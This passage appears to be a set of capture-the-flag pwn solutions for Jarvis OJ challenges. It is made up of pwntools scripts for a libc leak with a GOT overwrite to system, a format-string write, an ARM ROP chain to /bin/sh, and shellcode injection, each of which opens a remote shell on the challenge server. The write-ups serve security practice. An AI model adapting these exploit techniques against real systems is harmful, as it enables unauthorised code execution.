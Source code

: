    ```python
   delete(1)
   #leak libc
   #gdb.attach(r)
   payload = p64(2) + p64(1) + p64(0x100) + p64(chunk0 - 0x18)
   payload += p64(1) + p64(0x8) + p64(elf.got["atoi"])
   payload = payload.ljust(0x100, '\x00')
   edit(0, payload)
   list()
   #gdb.attach(r)
   r.recvuntil("0. ")
   r.recvuntil("1. ")
   libc.address = u64(r.recvuntil("\x0a", drop = True).ljust(8, '\x00')) - libc.sym["atoi"]
   #get shell
   edit(1, p64(libc.sym['system']))
   r.sendlineafter("choice: ", "/bin/sh")
   r.interactive()
   
   ```

* ### [61dctf]fm

   ```python
   from pwn import *
   r = remote('pwn2.jarvisoj.com',9895)
   fuck = fmtstr_payload(11,{0x804A02C:4})
   print(fuck)
   r.sendline(fuck)
   r.interactive()
   ```

   
   
* ### Typo

   ```python
   from pwn import *
   r = remote('pwn2.jarvisoj.com',9888)
   elf = ELF("typo")
   system = 0x110b4
   binsh = 0x6c384
   pop_r0_r4_pc = 0x20904
   payload = 'a'*0x70+p32(pop_r0_r4_pc)+p32(binsh)+p32(0)+p32(system)
   r.sendline('')
   r.sendline(payload)
   r.interactive()
   ```

* ### jarvisoj_calc.exe

   ```python
   from pwn import *
   r = remote('pwn2.jarvisoj.com',9892)
   payload = 'var add = \"'+asm(shellcraft.sh())+'\"'
   r.recvuntil('>')
   r.sendline(payload)
   r.sendline('+')
   r.interactive()
   ```

   
